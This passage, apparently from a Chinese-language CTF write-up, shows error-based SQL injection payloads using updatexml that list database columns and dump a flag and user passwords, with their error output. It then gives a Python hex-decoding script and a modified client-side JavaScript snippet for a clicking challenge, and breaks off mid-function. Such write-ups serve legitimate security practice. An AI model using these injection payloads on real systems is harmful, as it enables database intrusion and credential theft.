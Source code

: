 `1'or(updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema=database()),0x7e),1))#`

输出 查询失败: XPATH syntax error: '~id,flag,id,username,password~'

`1'or(updatexml(1,concat(0x7e,(select group_concat(flag) from flaggg),0x7e),1))#`

输出 查询失败: XPATH syntax error: '~xjusec{true_falg_is_in_user}~'

**好嘛又被骗了**

`1'or(updatexml(1,concat(0x7e,(select group_concat(password) from user),0x7e),1))#`

get flag

#### 彭油，JS懂不懂

将js解码。

解码脚本：

```
import re

def decode_hex(text):
    # Replace all instances of \x63 with the corresponding character
    decoded_text = re.sub(r'\\x([0-9a-fA-F]{2})', lambda x: chr(int(x.group(1), 16)), text)
    return decoded_text

def main():
    input_file = "input.txt"
    output_file = "output.txt"

    # Read the input file
    with open(input_file, 'r', encoding='utf-8') as f:
        content = f.read()

    # Decode the text
    decoded_content = decode_hex(content)

    # Write the decoded content to the output file
    with open(output_file, 'w', encoding='utf-8') as f:
        f.write(decoded_content)

    print(f"Decoded content written to {output_file}")

if __name__ == "__main__":
    main()
```

稍做修改，替换掉原网站的js，点十下就可以getflag啦

```
var H1 = 0;

function draw() {
    one = '<div class="item">';
    two = '<p id="clickNumber">Click number: 0</p>';
    three = '<p id="flag">flag will appear when you click 99999999 times !</p>';
    four = '</div><div class="item"><img src="xjdx.jpg" onclick="clickkkkk();"></div>';
    window["document"]['getElementById']("bo")['innerHTML'] = one + two + three + four
}
draw();

function clickkkkk() {
    var mZjYBFF2 = 1;
    var tbuE3 = 2;
    var nBmms4 = 3;
    window["document"]['getElementById']("flag");
```